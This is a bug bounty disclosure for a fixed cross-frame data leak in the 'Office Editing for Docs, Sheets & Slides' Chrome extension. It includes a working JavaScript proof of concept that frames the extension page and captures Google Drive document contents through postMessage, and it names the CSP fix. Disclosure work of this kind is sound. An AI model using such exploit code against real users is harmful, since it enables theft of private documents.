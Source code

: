 ```yaml
---
title: Office Editing for Docs, Sheets & Slides leak (Awarded $3133.70)
---
```


**URL:** <https://chromewebstore.google.com/detail/office-editing-for-docs-s/gbkeegbaiigmenfmjfclcdgdpimamgkj>

**PoC video:** <https://youtu.be/r0ajiPGLh0M>

### Details

- **Replace `msofficeDocId` with the doc ID of a `pptx`/`docx` file you uploaded to google drive**
- It does not need to be shared with anyone.
- 3rd party cookies are required to be enabled however with browser heuristics this can be automatic for example it gets allowed if you open and interact with a popup on Chrome.

```
let msofficeDocId = '1DuGHZhNFjJFCtOXVkA91t5o92Y3BRJ1u';

setInterval(() => {
if (window.f) document.body.removeChild(f);
f=document.createElement('iframe');
f.width=500;
f.height=500;
f.src='chrome-extension://gbkeegbaiigmenfmjfclcdgdpimamgkj/views/app.html?state=%7B"ids":%5B"' + msofficeDocId + '"%5D,"action":"open","resourceKeys":%7B%7D%7D';

document.body.appendChild(f);

 let loop = setInterval(() => {
 // Wait for iframes to load
 if (f.contentWindow.length !== 2) return;
 clearInterval(loop);

 setTimeout(() => {

 f.contentWindow[0].location = 'about:blank';
 let loop2 = setInterval(() => {
  try {
  // Monitor for leaks via onmessage
  f.contentWindow[0].onmessage = (e) => {
     console.log('Data leaked :) '+ JSON.stringify(e.data));
  }
  clearInterval(loop2);
  } catch {}
 }, 0);
 // Wait a bit for the sandbox to request document content
 }, 600);

}, 0)

// Retry ever 2 seconds
}, 2000);
```

This issue was fixed by adding `frame-ancestors 'self'` to the `extension_pages` content security policy.

### Attack scenario

Attacker websites can leak data from a user's google drive if they know the doc id.
